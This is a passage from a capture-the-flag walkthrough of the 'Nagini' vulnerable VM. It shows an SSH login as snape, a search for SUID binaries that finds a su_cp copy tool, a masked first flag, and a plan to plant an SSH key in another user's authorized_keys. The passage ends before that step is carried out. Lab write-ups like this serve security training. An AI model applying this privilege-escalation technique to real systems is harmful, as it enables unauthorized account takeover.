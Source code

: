 We can now try to login as snape via ssh:

```bash
ssh snape@quic.nagini.hogwarts
```

![Alt text](./HARRY_POTTER_NAGINI/img/sanpe.PNG?raw=true "SNAPE")

I tried to check if we have sudo permission, but no, then I checked the system permission to run some code and found something interesting.

In /home/hermoine/bin there is a su_cp.

```bash
snape@Nagini:~$ sudo -l
-bash: sudo: command not found
snape@Nagini:~$ find / -perm -u=s 2>/dev/null
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/home/hermoine/bin/su_cp

```

The **su_cp** command seems to copy a file from SOURCE to DEST.

Navigating in /home/hermoine, I noted that there is .ssh folder which is empty.

So i thought to upload a id_rsa using a webserver to snape home file and then using the su_cp to import it into /home/hermoine/.ssh/authorized_keys

Before doing it, I forgot to catch the 1st flag :D

```bash
snape@Nagini:~$ find / -name horcrux* 2>/dev/null
/var/www/html/horcrux1.txt
/home/hermoine/horcrux2.txt
snape@Nagini:~$ cat /var/www/html/horcrux1.txt
horcrux_{MzXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX9O}

```

**Let's move on....**

Let's open a new terminal in our Hacking machine and go to the .ssh folder

```bash
cd ~/.ssh
```
